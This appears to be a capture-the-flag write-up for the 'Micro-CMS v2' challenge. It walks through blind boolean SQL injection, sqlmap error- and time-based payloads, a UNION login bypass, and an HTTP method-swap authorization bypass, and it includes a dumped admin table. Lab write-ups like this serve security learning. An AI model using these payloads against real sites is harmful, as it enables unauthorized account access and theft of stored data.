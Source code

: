 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")
```

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error. These error messages reflect the TRUE and FALSE values of the entries and can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned TRUE, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned FALSE. Using this query and testing for a length that is TRUE, it is found that the length of the password is ```7```.

Now, each character in the password can similarly be found using ```substring()```: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters against each of the 7 characters in the password and seeing if the ```Invalid password``` error is shown which means it returned TRUE, the password can be found. Write a script or use Burp Intruder to automate this.

E.g. to check if first character for an arbritrary value of ```a```: ```' or IF(substring(password,1,1)='a', TRUE, FALSE)-- ```; to check if the second character is ```b```: ```' or IF(substring(password,2,1)='b', TRUE, FALSE)-- ```; and so on until the last character i.e.```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

```
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=
```

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

```
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema

Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | shayna   | tanesha  |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

(Alternate solution: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found as seen in the following paragraphs.)

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

This emphasizes the fact that successful attacks most commonly emerge from unintended or unexpected input by the developer of the site. Here, a POST request is sent where a GET request is expected and bypasses security measures that exist in the expected GET request.

#### FLAG1 is captured.

All flags captured
=====
